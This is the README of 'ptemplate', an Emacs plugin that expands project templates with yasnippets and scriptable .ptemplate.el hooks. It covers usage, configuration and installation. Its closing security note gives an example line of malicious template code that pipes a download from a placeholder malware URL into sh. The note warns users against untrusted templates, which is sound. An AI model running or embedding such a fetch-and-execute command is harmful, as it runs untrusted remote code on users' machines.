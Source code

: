 # About
Projects contain a lot of boilerplate like build system files, cask files,
license files, ..., making starting new projects more work than it needs to be.
The ptemplate Emacs plugin solves that problem: it lets you define directory
templates that can contain various files and directories, including yasnippets.
Such templates ("ptemplates") can even be made intelligent using Emacs Lisp.

# Usage
## Creating new projects
For helm users, run `ptemplate-expand-template`. It will then prompt you to
select a template followed by a project directory. The templates are categorized
in types, which are either mapped to helm sections or to suffixes appended to
template names (see the "Configuration" section below).

# Writing templates
All templates are categorized into types, which are associated with workspace
directories using the variable `ptemplate-workspace-alist`. You could, for
example, have types corresponding to languages (so a Java type, a C++ type,
...). The corresponding workspace is used as the default folder in the project
directory selection. Templates are stored in `ptemplate-template-dirs`, a list
of directories containing templates, all of which must be categorized under type
directories as described above.

## Anatomy of a template
Each template has a nested directory structure, consisting of any number of
files and directories, which is replicated at the expansion target. Some files
(depending on their suffix) are expanded specially, and their extension is not
replicated:

### \*.yas
Files ending in .yas are yasnippets, which are expanded in a so-called snippet
chain: a list of all such files is gathered, after which a single buffer pops up
where the user can expand the first snippet like any regular yasnippet (TAB,
...). The following snippets can be visited similarly by pressing `C-c C-c`, at
which point the buffer is killed and written to the target. The following
keybindings are available in a snippet chain buffer:

#### `C-c C-c`: `ptemplate-snippet-chain-continue`
Finish expanding the current yasnippet by writing the current snippet buffer to
the correct destination and killing its buffer.

#### `C-C C-l`: `ptemplate-snippet-chain-later`
Mark the current snippet buffer to be expanded later and continue like
`ptemplate-snippet-chain-continue`. Unlike with `ptemplate-snippet-chain-next`,
the snippet buffer is not killed. You can use this keybinding to procrastinate
expansion of the current snippet and look at the others meantime.

The keybindings can be modified by customizing
`ptemplate-snippet-chain-mode-map`.

### \*.keep
.keep files are copied like normal files, but without the .keep extension. Name
files this way if you need to override ptemplate's special file handling for
some files (e.g. if you are writing templates for ptemplate templates).

### .ptemplate.el
As stated in "About", ptemplate allows templates to be scripted with Emacs Lisp.
For this, you can add .ptemplate.el in the template's root directory, which is
evaluated before expansion. This file is not copied. Even though arbitrary lisp
code, executed in the main Emacs instance, can be contained within it, templates
should make use of the `ptemplate!` macro. It takes any number of keyword blocks
(akin to `use-package`) which are then expanded to the correct lisp code:

- :init FORMs to run before expansion
- :before-snippets FORMs to run before expanding yasnippets
- :after FORMs to run after all files have been copied

For details, see `M-x describe-function ptemplate!`.

# Configuration
## ptemplate-template-prompt-function
This variable specifies which function to use for prompting templates. It can be
a custom function, or one of the builtin ones (see its docstring for details).
By default it prompts templates using completing-read, and their types appended
in parentheses. There is also a builtin function available to use separate helm
sections (sources) instead:

```emacs-lisp
(setq ptemplate-prompt-template-completing-read
      #'ptemplate-prompt-template-helm)
```

## ptemplate-workspace-alist
Maps template types to workspaces. When a new project is created, the type is
looked up in this alist and the directory mapped is suggested as the default
target, in which another directory may be specified for expansion. If the type
is not associated, use `ptemplate-default-workspace`, or the current buffer's
`default-directory` if even that is nil.

## ptemplate-default-workspace
See above.

## ptemplate-template-dirs
List of directories in which templates are looked up. Each directory specified
shall consist of a number of subdirectories (corresponding to types) each of
which have separate subdirectories for templates (template names).

# Installation
This package is not yet on `MELPA`. However, you can install it using any
package manager/fetcher that can handle GitHub repositories:

## `quelpa` + `use-package`
``` emacs-lisp
(quelpa '(ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
(use-package ptemplate)
```

## `quelpa-use-package`
``` emacs-lisp
(use-package ptemplate
  :quelpa (ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
```

## `straight-use-package`
``` emacs-lisp
(straight-use-package
 '(ptemplate :type git :host github :repo "nbfalcon/ptemplate"))
```

# Security note
Due to the smart expansion feature, and due to allowing yasnippets in templates,
ptemplate is *not* secure. You should use only trusted templates. A malicious
template could have a snippet like the following in its .ptemplate.el or in a
\`\` block of one of its yasnippets:

```emacs-lisp
(shell-command "wget $SH_MALWARE_URL | sh")
```

At that point, all security would be lost: the malicious shell script could nuke
your home directory, implant a .profile-based rootkit, modify user-owned
software, .... The possibilities are endless.
